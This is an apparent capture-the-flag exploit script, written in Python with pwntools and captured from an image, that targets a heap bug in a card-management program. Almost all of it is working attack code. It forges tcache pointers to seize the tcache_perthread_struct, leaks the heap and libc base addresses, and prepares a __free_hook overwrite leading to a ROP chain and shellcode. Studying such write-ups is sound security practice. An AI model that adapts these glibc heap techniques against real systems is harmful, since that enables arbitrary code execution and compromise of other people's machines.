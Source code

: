 ```python
p.recvuntil('Card name: ')
p.recv(0x10)
heap_base = u64(p.recv(6) + b'\x00\x00') - 0x2d0
log.info(f'Heap: {hex(heap_base)}')


#####################################
# TAKE CONTROL OF THE TCACHE!
#####################################
# We need the heap address to be able to encrypt and decrypt the FD pointers of free tcache bins.
# Let's take control of tcache_perthread_struct by allocating a chunk on it.
# We cannot use 0x28 size for this or the program's mallocs will break everything.
def protect_ptr(heap_addr, ptr):
    return (heap_addr >> 12) ^ ptr

tcache_fd = protect_ptr(heap_base, heap_base+0x10)
c = add_card(0xf8, 'red', 'a')
d = add_card(0xf8, 'red', 'ddddddd') # need to add 2 to put idx count to 2 or our added pointer wont be used
rm_card(d)
rm_card(c)
edit_name(c, p64(tcache_fd)) # d is lost forever lol rip
c = add_card(0xf8, 'red', 'ccccccccc') # same as c

# allocate to the tcache struct and set the 0x100 bin to 7 (full)
# This will be useful for leaking the libc address
tcache_perthread_struct = add_card(0xf8, 'red', p16(0) + p16(2) + p16(0)*12 + p16(7))


#####################################
# LEAK THE LIBC'S BASE ADDRESS!
#####################################
# this will go in the unsorted bin since the tcache is full. it now has pointers to libc
rm_card(c)

# let's take c back. for this, we need to set the tcache bin to empty,
# or it will try taking from there instead of the unsorted bin.
edit_name(tcache_perthread_struct, p16(0) + p16(2) + p16(0)*12 + p16(0))

# I cannot use the same size (0xf8) or it will trigger the exact match condition at malloc.c:3820
# This would cause malloc to place the chunk in the tcache and pop it right after, deleting the libc leaks...
c = add_card(0xe8, 'red', 'c'*8)
view_card(c)
p.recvuntil('c'*8)
libc_leak = u64(p.recv(6) + b'\x00\x00') - libc_leak_offset
libc_elf.address += libc_leak
add_rsp_0x38 += libc_leak
free_hook = libc_elf.sym['__free_hook']
log.info(f'Libc: {hex(libc_leak)}')
log.info(f'Free Hook: {hex(free_hook)}')


#####################################
# RUNNING ARBITRARY INSTRUCTIONS!
#####################################
# Let's modify the tcache struct again, to get a chunk on free_hook
# Modify free_hook to a gadget that simply adds 0x38 to RSP.
# Then if we add a secret name and call free right after, the 0x38 gadget will make it so that the return address is right on top of the first 8 bytes of our secret name :)
# So, the secret name ROP will call mprotect on the heap to make it executable.
# Then, we jump to a shellcode we placed on it.

```